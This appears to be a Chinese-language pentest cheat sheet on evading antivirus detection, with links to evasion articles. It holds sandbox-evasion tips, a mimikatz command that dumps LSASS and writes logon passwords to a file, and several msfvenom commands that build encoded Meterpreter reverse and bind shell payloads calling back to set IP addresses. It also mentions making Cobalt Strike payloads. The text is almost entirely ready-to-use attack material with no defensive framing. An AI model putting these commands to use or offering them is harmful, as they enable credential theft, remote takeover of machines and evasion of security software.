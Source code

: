 普通 exe 免杀使用 py 或 go 等加密后反射加载，基本上就可以过大部分杀软了。
启动后 cmd /c timeout 延迟等待N秒用来反沙箱

procdump+mimikatz,  mimikatz很多时候都会被杀掉，可以通过procdump+mimikatz的方式 进行绕过。 或 任务管理器—进程—显示所有用户进程—找到lsass(Local Security Authority Process)—右键“创建转储文件”
- mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" "exit">pass.txt

msf

```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f c -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -e x86/shikata_ga_nai -i 15  -f csharp -o payload_bind.txt
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=1234 -f c > payload.c
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.127.134 LPORT=1234 -f c > payload.c
```

cobalt strike
生成 payload C 版本。用掩日生成一下。

# Article

- rw\_bypass\_免杀\_BypassAV.html
- [有手就行的白加黑实战免杀 - FreeBuf 网络安全行业门户](https://www.freebuf.com/articles/system/333690.htm)
- [一文读懂 DLL 劫持与白+黑样本原理](https://mp.weixin.qq.com/s/UZjLNPna7R2ZLs3r9kJEQg)
- [写外挂时偶然想到的免杀思路](https://mp.weixin.qq.com/s/0c6D2aw9xk-NPKYuCkvoIg)
